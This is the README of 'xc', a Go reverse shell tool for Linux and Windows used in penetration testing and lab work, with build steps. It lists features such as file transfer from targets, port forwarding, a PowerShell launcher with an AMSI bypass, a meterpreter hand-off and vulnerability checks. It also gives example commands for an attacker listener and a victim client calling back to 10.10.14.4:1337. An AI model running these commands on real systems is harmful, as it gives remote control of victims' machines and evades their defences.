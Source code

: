 # XC

Netcat like reverse shell for Linux & Windows.

## Features

### Windows

```  
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
  !powershell
    * starts powershell with AMSI Bypass
  !rc <port>
    * connects to a local bind shell and restarts this client over it
  !runasps <username> <password> <domain>
    * restart xc with the specified user using powershell
  !vulns
    * checks for common vulnerabilities
``` 

### Linux

```
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
 !ssh <port>
   * starts sshd with the configured keys on the specified port
``` 

## Examples

- Linux Attacker:	  `rlwrap xc -l -p 1337`			(Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	  (Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

Make sure you are running golang version 1.15+, older versions will not compile. I tested it on ubuntu: `go version go1.16.2 linux/amd64` and kali `go version go1.15.9 linux/amd64`

``` 
git clone --recurse-submodules https://github.com/xct/xc.git

GO111MODULE=off go get golang.org/x/sys/...
GO111MODULE=off go get golang.org/x/text/encoding/unicode
GO111MODULE=off go get github.com/hashicorp/yamux
GO111MODULE=off go get github.com/libp2p/go-reuseport
sudo apt-get install rlwrap upx
```

> In recent versions of golang, 1.22+, you may encounter the following error
> ```
> go: modules disabled by GO111MODULE=off; see 'go help modules'
> ```
> 
> In that case, you will need to download the src manually
> ```
> git clone --depth=1 https://github.com/hashicorp/yamux ~/go/src/github.com/hashicorp/yamux
> git clone --depth=1 https://github.com/libp2p/go-reuseport ~/go/src/github.com/libp2p/go-reuseport
> git clone --depth=1 https://go.googlesource.com/sys ~/go/src/golang.org/x/sys
> ```

Linux:
```
python3 build.py
```

## Credits

* Included for Windows Clients: https://github.com/itm4n/PrivescCheck  
* Included for Windows Clients: https://github.com/PowerShell/Win32-OpenSSH
